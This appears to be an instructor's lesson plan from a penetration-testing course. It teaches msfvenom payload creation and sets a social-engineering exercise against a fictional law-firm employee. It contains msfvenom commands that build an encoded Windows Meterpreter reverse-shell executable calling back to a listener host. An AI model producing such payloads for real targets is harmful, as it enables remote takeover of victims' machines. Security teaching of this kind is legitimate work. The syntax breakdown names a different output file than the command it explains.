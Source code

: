    - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=192.168.0.8 LPORT=4444`

   - Break down the syntax:
      - `msfvenom`: Launches the `msfvenom` program.

      - `-p`: Indicates payload. 

      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.

      - `-a x86`: Designates the architecture we will use. `x86` is default.

      - `-e x86/shikata_ga_nai`: Designates the encoder we will use.

      - `-f exe`: Indicates the file type to create. In this case, `.exe`.

      - `-o /tmp/malware.exe`: Creates an output file, naming the file (`malware.exe`) and location (inside the `/tmp` directory).

- Next, display the command used in the previous lesson and have students break it down themselves: 

  - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe > hack.exe`

      - `msfvenom`: Launches the `msfvenom` program.
      - `-p`: Indicates payload. 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.
      - `-f exe`: Creates a `.exe` file type.


Pause to answer questions before proceeding.

Explain that in the next activity, students will build their own custom command in an exploitation attack.


### 02. Student Do: Creating Custom Payloads (0:25)

Explain the following:

In this activity, you will play an independent penetration tester hired by the law firm Jacoby and Dreyer LLP.

- The firm wants you to test the effectiveness of their security awareness program. They suspect that one of their employees is being careless with their internet use and not adhering to company security policies.

- You've decided to use a social engineering tactic to convince the employee to click on a link in their web browser. The legal firm has provided you with the employee's IP address.

- Specifically, you will use `msfvenom`'s custom payload options to build a malicious file that will link to a webpage for the targeted employee to click on.

- [Activity File: Creating Custom Payloads](Activities/01_Creating_Custom_Payloads/Unsolved/README.md)

### 03. Instructor Review: Creating Custom Payloads Activity (0:15)

Remind students that the goal of this activity was to craft customized payload options and understand how criminal hackers use them to bypass security controls.

